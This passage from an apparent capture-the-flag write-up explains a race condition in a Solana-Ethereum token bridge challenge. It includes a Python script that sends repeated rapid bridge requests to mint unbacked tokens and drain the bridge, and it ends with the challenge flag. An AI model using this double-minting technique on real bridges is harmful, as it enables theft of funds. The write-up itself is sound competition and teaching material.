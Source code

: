 However, this validation is insufficient and vulnerable. If the function is called twice rapidly, the last call may use outdated state, bypassing the intended checks.
As a result, it becomes possible to mint more tokens on Ethereum than actually burned on Solana. For example:
- A player holding `1 Bubble` calls `toEth` twice nearly simultaneously with `amount = 1`.
- Due to outdated state in the `send_transaction` call, the `insufficient funds error` does not occur.
- Consequently, the Ethereum-side minting happens twice, resulting in `2 Bubble`.

By exploiting this vulnerability, tokens can be doubled repeatedly, effectively allowing for **infinite minting**. Using this method, I multiplied the tokens tenfold at each step:

```python
# toSol
payload = {
    "key": info["ethereum"]["private_key"],
    "amount": balance,
    "target": info["solana"]["pubkey"],
}
headers = {"Content-Type": "application/json"}
httpx.post(f"{INSTANCE_URL}/toSol", json=payload, headers=headers)

time.sleep(20)

# toEth
for j in tqdm(range(10)):
    payload = {
        "key": str(info["solana"]["keypair"]),
        "amount": balance,
        "target": info["ethereum"]["address"],
    }
    headers = {"Content-Type": "application/json"}
    httpx.post(f"{INSTANCE_URL}/toEth", json=payload, headers=headers)
```

With the infinitely minted tokens, it becomes possible to drain all `Bubble` tokens from the `Bridge`. The final solver was divided into several components:
- [solve.fish](./solve.fish): The overall solver script  
- [Exploit.s.sol](./Exploit.s.sol): Handles smart contract interactions  
- [race.py](./race.py): Triggers the race-condition-like bug and performs infinite minting

Flag: `dice{https://www.youtube.com/watch?v=iRJB6DotUsU&si=dicectf2025_cAdPaVDd8mI}`
